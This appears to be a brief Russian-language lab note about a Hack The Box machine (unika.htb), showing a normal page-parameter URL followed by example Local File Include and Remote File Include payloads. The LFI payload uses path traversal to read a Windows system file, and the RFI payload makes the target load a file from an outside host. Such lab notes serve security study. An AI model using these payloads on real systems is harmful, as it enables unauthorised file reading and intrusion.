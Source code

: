 
#### пример: 
http://unika.htb/index.php?page=french.html

#### уязвимость Local File Include (LFI)
пример использования уязвимости: http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts

#### уязвимость Remote File Include (RFI)
пример использования уязвимости: http://unika.htb/index.php?page=//10.10.14.6/somefile